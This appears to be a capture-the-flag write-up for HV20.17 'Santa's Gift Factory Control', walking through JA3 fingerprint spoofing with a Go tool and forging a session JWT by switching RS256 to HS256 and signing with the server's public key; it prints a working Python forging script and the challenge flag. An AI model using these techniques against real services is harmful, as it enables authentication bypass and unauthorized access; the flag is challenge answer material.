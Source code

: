 # HV20.17 Santa's Gift Factory Control

For this challenge, we get a link to a [website](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/) that is protected using a [JA3 signature](https://github.com/salesforce/ja3). We also know that the signature has to match `771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0` for us to be able to access the site. As this signature is derived from a couple of system / browser parameters (supported ciphers, user agent, ...), it is not straightforward to fake it but after googling for a bit, I found a useful [tool](https://github.com/CUCyber/ja3transport) written in go that allows us to bypass the protection.

By using this tool, I was able to access the content of the site, but instead of a flag I got presented with another login form:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>Santa's Control Panel</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link
      href="static/bootstrap/bootstrap.min.css"
      rel="stylesheet"
      media="screen"
    />
    <link
      href="static/fontawesome/css/all.min.css"
      rel="stylesheet"
      media="screen"
    />
    <link href="static/style.css" rel="stylesheet" media="screen" />
  </head>
  <body>
    <div class="login">
      <h1>Login</h1>
      <form action="/login" method="post">
        <label for="username">
          <i class="fas fa-user"></i>
        </label>
        <input
          type="text"
          name="username"
          placeholder="Username"
          id="username"
        />
        <label for="password">
          <i class="fas fa-lock"></i>
        </label>
        <input
          type="password"
          name="password"
          placeholder="Password"
          id="password"
        />

        <input type="submit" value="Login" />
      </form>
    </div>
  </body>
</html>
```

As we don't know any credentials, I adapted my script to try some obvious combinations, as well as SQL Injection attacks. Nothing of them really worked, but when using `admin` as the username I got back a different response including an obscure HTML comment (`<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`) and a session cookie with a JWT (`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii9rZXlzLzFkMjFhOWY5NDUifQ.eyJleHAiOjE2MDgyMjEyMzAsImlhdCI6MTYwODIxNzYzMCwic3ViIjoibm9uZSJ9.PgZN4Lj52AwevSMKPWeTWFwe3QsGtm-oNp-UR0mGZRtrg59Kul9YoK_-Ufm6DcGIS_6mHQ-GXvl-UXdVxFca2u_yAqhL9FdUJhu-DXZ7RrWkTkoQ_45OJMREuWbbGOaMZ7AwzsGl49B7e4TkmL57J0Vtye32tRLmhpD-dEsQocAG--Bafv10z3ZuprXfjNJWTrghknxEPqZ-fEOdpVDQybev_31F9qHz7SrJxAzyFrbjEtbN4FBF3zEuaqqmHwim2g0XuZh_kHJ3prDB2FySfwmKusL4LiIYQKZ-oHWTQR9_cFPoeKURH82Huvk6jODbTqO-KP4MDEPEkLf8lZyZSA`).

This seems like an important hint. Firstly, we found out that the username should be `santa1337`. Moreover, we learned that the site is using JWT based authentication, which brings along a couple of new attack vectors. My first guess was an attack where we could change the `alg` attribute in the JWT header to `none` and strip the signature. Using this approach, we could force a JWT with the `sub` attribute set to `santa1337` and bypass the login, but unfortunately it did not work.

After a while, I remembered another type of attack where we could trick serveers by changing the JWT type from an assymtric RSA signature (`RS256`) to a symmetric one (`HS256`) and sign the forced JWT with the public key of the server. If the application is vulnerable, it would verify the signature using it's private key and accept the forged token. Thankfully, we have access to the public key of the server, as it's path was specified in the JWT we already have (`/keys/1d21a9f945`). Using this path and our go program, we can download the [public key](./public_key.pem).

Now we have everything we need to create a forged JWT token that uses the `HS256` algorithm and gets signed with the public key from the application. For this purpose, I wrote another small [python script](./forge-jwt.py) (of course we need to make sure that the token is not expired before running the script):

```python
#!/usr/bin/env python3
import jwt

public = open('public_key.pem', 'r').read()
token = jwt.encode({
    "exp": 1608218097,
    "iat": 1608214497,
    "sub": "santa1337"
    }, key=public, algorithm='HS256', headers={'kid': '/keys/1d21a9f945'}).decode('ascii')

print(token)
```

Now we can take the ouput of this script and try to send it as the `session` cookie from within our go program. Using this approach, I was able to bypass both protection mechanisms and access Santas secret control panel, where I could get the flag (hidden inside an HTML comment):

```bash
➜  17 git:(main) ✗ go run crack.go $(./forge-jwt.py) | grep HV20
<!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
```

**Flag:** HV20{ja3_h45h_1mp3r50n4710n_15_fun}
